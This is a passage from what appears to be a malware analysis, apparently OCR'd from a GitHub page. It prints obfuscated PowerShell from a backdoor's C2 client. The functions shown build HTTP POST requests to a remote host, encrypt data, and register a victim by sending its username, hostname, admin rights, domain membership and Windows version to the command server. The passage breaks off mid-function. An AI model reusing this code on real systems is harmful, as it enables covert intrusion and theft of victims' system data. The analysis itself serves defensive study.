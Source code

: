 ```csharp
  ${reQueST}."aCCepT"                           = "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"
  ${rEQUest}."HEadERS"["Accept-Language"]       = "en-US,en;q=0.5"
  ${reQuESt}."HeAdeRs"["Cache-Control"]         = "max-age=0"
  if(${mETHod} -eq "POST")
  {
      ${bODY} = [byte[]][char[]]${boDy}
      ${upSTReAM} = ${ReqUeSt}.("Cache-Control").Invoke()
      ${uPsTREAm}.("Write").Invoke(${bodY}, 0, ${boDY}."LeNgTh")
      ${UPStREaM}.("Flush").Invoke()
      ${UpSTREAm}.("Close").Invoke()
  }
  ${REsPonse} = ${reqUEsT}.("GetResponse").Invoke()
  ${STREaMReadER} = [System.IO.StreamReader](${reSpONSe}.("GetResponseStream").Invoke())
  ${oUTsTREAm} =   (geT-VAriABle  z3eB9m  -vAlueon)::("new").Invoke()
  ${sTreAMREaDEr}."BAsesTrEAM".("CopyTo").Invoke(${OuTSTrEaM})
  ${REs} = ${OUtstREaM}.("ToArray").Invoke()
  ${StrEamreaDER}.("Close").Invoke()
  ${rEspoNSE}.("Close").Invoke()
  return ${reS}
}
function SENd-TOhoST 
{
  param(${DaTa})
  try
  {
    ${uRI} = ${ReMOTEhoST} + "/" + ${COmManDPAtH}
    ${resUlt} = &("Send-WebRequest") -uri ${URI} -method ("POST") -body ${DATA}
  } catch { return ''}
  return ${reSUlt}
}
function prEpARE-ReqUEst
{
  param(${DAtA}, ${INTERnAlUsEriD}, ${InterNALUsErkEy})
    ${ENcRyPTed} = &("Encrypt-Data") ${daTa} ${INTERnaluSERkeY}
    ${APpENDIX} = ${iNTERNAlUSERiD} + ';'
    ${APpENdiXBYtEs} = ${eNCodING}.("GetBytes").Invoke(${APpeNDIX})
    ${ENCrYPTed} = ${ApPeNDixbYTES} + ${eNCRYPtEd} 
    return ${eNcRyPTEd}
}
```

<h6>The next function are used fro register the new victim to C2 and set or remove the persistence on the system.<h6>

```csharp
function ReGIstEr-TiNy
{
  ${isAdMin} = &("Get-IsLocalAdmin")
  ${ISINAD}  = &("Get-IsInAd")
  ${BITneSs} = &("Get-Bitness")
  ${WINVer}  = &("Get-WinVer")
  ${rEGSTr} = "username:"+${usERNAme}+';'+"hostname:"+ ${HOsTNAme}+';'+"localprivs:"+${isAdMIN}+';'+"partofad:"+${ISInad}+';'+"bitness:"+${biTnesS}+';'+"winver:"+${WInVer}+';'
  ${ENcRyPtEd} = &("Encrypt-Data") ${rEGSTR} ${caMpAIGnid}
  ${reSPonSE}  = &("Send-ToHost") ${ENCRyPTEd}
  ${IdANDkEY}  = &("Decrypt-Data") ${reSpONsE} ${CAMPaiGNid}
  if(${idAnDkEY}.("contains").Invoke(";")) { return ${IdAndKEy}}
  else { Exit(0) }
}
function CHeck-REMOteHOst
{
    ${clIEntiD} = &("Get-ClientID")
    ${pATh} = ${REGistRYpAtH} + ${CLientID}
```